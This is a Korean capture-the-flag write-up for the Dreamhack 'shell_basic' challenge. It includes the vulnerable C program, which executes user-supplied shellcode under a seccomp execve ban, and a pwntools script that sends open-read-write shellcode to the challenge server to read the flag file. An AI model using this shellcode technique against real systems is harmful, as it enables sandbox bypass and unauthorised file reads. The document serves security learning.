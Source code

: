 # [Shell_basic](https://dreamhack.io/wargame/challenges/410/) 

 문제 파일의 코드는 다음과 같다. 

```C
// Compile: gcc -o shell_basic shell_basic.c -lseccomp
// apt install seccomp libseccomp-dev

#include <fcntl.h>
#include <seccomp.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/prctl.h>
#include <unistd.h>
#include <sys/mman.h>
#include <signal.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void init() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(10);
}

void banned_execve() {
  scmp_filter_ctx ctx;
  ctx = seccomp_init(SCMP_ACT_ALLOW);
  if (ctx == NULL) {
    exit(0);
  }
  seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execve), 0);
  seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execveat), 0);

  seccomp_load(ctx);
}

void main(int argc, char *argv[]) {
  char *shellcode = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);   
  void (*sc)();
  
  init();
  
  banned_execve();

  printf("shellcode: ");
  read(0, shellcode, 0x1000);

  sc = (void *)shellcode;
  sc();
}
```

## Exploit strategy

처음 문제를 보았을 때는 mmap이라는 생소한 함수가 있어서 굉장히 당황스러웠다.

공부를 해서 찾아보니 문제에 적힌 코드 
char *shellcode = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);의 뜻은 핵심만 말하자면 offset(마지막 argument 0)에서 시작해서 0x1000바이트만큼을 start주소(첫번째 argument NULL)로 맵핑한다는 의미다. PROT인자는 메모리 보호모드의 종류이다. 여기서 fd값은 -1이다. 스택오버플로우에서 찾아보니 fd 값을 -1로 하여 mmap함수를 사용하는 것은 메모리를 할당하는 방법 중의 하나라고 한다. 

유심히 봐야할 코드는 

read(0, shellcode, 0x1000);

sc = (void *)shellcode; 이다.

표준입력을 통해 shellcode의 값을 입력받고 

이 값을 함수포인터에 type casting을 하여 대입하는 것이다. 
그렇다면 함수포인터에는 shellcode의 시작주소가 담기게 될 것이기때문에 sc를 호출하는 순간 셸코드를 실행시킬 수 있는 것이다.

이 문제를 풀기위해서는 문제에서 제시한 플래그 파일을 읽어서 플래그를 획득(출력)해야한다. 
즉 우리는 orw shellcode를 삽입한 exploit script를 작성하면 된다.

## Exploit script 

다음은 해당 문제에 대한 exploit script로, 파이썬 모듈 중 pwntools를 사용하여 작성하였다. 

```python
from pwn import* 
# importing pwntools
p = remote('host1.dreamhack.games',10732) 
# 원격서버를 대상으로 실제로 공격하므로 remote함수를 사용 인자는 각각 호스트와 포트

context.arch = 'amd64' 
#공격 대상 아키텍쳐는 x86-64

path = "/home/shell_basic/flag_name_is_loooooong"
#flag 위치와 이름

code = ''

code += shellcraft.open(path,0 ,0)
#shellcraft를 이용하여 open system call의 셸코드를 사용.

code += shellcraft.read('rax','rsp',0x1000)
#shellcraft를 이용하여 read system call의 셸코드를 사용. 인자는 fd,buffer,count 순이다. 
#fd 인자로 rax를 쓰는 이유는 open syscall의 반환 값이 rax에 저장되기 때문이다. 주의해야할 점은 buffer 인자로 rsp - count가 아니라 rsp 값을 대입해야한다.

code += shellcraft.write(1,'rsp',0x1000)
#shellcraft를 이용하여 read system call의 셸코드를 사용. 인자는 fd,buffer,count 순이다. 
#인자가 read와 같다.

print(p.recv())
#출력데이터 받아서 출력.

p.sendline(asm(code)) 
#작성한 셸코드+'\n'를 기계어로 변환하여 전송 

print(p.recvuntil('}'))
#플래그 형식은 DH{...}이므로 출력데이터를 '}'가 출력될 때까지 받아서 출력. 
```
